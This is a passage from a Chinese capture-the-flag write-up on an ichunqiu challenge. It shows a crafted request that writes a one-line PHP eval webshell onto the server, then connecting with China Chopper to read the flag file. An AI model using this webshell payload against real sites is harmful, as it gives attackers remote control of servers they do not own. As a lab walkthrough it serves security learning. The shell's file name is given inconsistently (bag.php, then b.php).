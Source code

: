 还要代码审计，需要传入一个path变量，里面要有`http://127.0.0.1/`这个字段，那么我们用url来写入一个一句话：  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">http://4a3416333d9544e9bbc41478dc5602d072d55777f2564419.game.ichunqiu.com/c3368f5eb5f8367fd548b228bee69ef2.php?path=http://127.0.0.1/5211ec9dde53ee65bb02225117fba1e1.php?usern3me=&lt;?php%2520eval($_POST[c]);?&gt;&amp;filename=b.php</span><br></pre></td></tr></tbody></table>

访问之后就生成了一个一句话木马，路径就是`/upload/bag.php`  
上菜刀了，路径是`http://4a3416333d9544e9bbc41478dc5602d072d55777f2564419.game.ichunqiu.com/upload/b.php`  
密码就是:c

![](22.png)

菜刀连上之后  
查看一下当前目录下的文件：  
什么都没有，那么返回到上一个目录，再查看一下有什么文件：

![](23.png)

终于得到了想要的，`cat flag_is_here.php`  
就有flag了

![](24.png)
